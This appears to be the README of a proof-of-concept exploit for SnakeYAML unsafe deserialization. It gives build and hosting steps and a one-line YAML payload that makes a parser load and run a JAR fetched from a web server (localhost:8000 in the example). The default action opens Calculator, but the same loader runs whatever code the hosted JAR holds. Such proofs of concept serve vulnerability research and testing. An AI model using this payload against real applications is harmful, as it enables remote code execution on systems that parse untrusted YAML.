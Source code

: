 # PoC SnakeYAML

## Usage

* Update the code in `src/pocsnakeyaml/PocScriptEngineFactory.java`, by default it will open the Calculator application on OS X
* Run `./build.sh` to compile the Java class and pack the JAR file
* Host the `poc.jar` file on your webserver or use a local webserver, for example `python3 -m http.server`

Use the following payload in the YAML file:

```yaml
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://localhost:8000/poc.jar"]]]]
```
